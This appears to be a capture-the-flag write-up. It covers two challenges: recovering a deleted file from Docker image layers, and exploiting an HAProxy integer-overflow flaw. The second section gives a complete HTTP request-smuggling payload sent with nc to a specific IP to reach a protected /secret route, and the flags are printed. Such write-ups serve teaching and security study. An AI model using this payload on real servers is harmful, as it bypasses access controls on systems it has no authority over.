 ```yaml
---
layout: post
title: Amazing Crypto WAF
category: AAAA! CTF 2021
---
```



## Acknowledgements

I would like to thank the Yogosha team for organizing this CTF and for providing a challenging and enjoyable experience. I am honored to have placed 1st in the competition.

# 1st challenge: Welcome To Kara Org

The goal of this challenge is to read the flag secret file by pulling the image "shisuiyogo/christmas" and recovering the file as it was removed before the container is ready.

## Steps

1. Run the command `docker save 81ef8c98117b > aa.tar` to save the image as a tar file.
2. Create a new directory called `layers` using the command `mkdir layers`.
3. Extract the contents of the tar file into the new directory using the command `tar -C layers -xvf aa.tar`.
4. Change into the new directory using the command `cd layers`.
5. Run the command `ls -al 26ca41e311fdd9587039634cc34f9876d781fe386c05ff21fca606d6673ca6ee` to list the contents of the directory.
6. Change into the directory `26ca41e311fdd9587039634cc34f9876d781fe386c05ff21fca606d6673ca6ee` using the command `cd 26ca41e311fdd9587039634cc34f9876d781fe386c05ff21fca606d6673ca6ee`.
7. Extract the contents of the file `layer.tar` using the command `tar -xvf layer.tar`.
8. Read the flag file using the command `cat data/secret_note.txt`.

## Flag

FLAG{Welcome_T0-The_XmAs_Chall}

# 2nd challenge: Secret Hideout

This challenge is about haproxy `CVE-2021-40346): Integer Overflow Enables HTTP Smuggling`. The goal is to use the provided bash command to get the `/secret` route.

## Steps

1. Run the following command:

```
(printf "POST / HTTP/1.1\r\nHost: 3.82.106.93:80\r\nContent-Length0aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa:\r\nContent-Length: 28\r\n\r\n"; sleep 1;printf "GET /secret HTTP/1.1\r\nDUMMY:"; printf "GET /test HTTP/1.1\r\nHost: 3.82.106.93:80\r\n\r\n") | nc 3.82.106.93 80
```
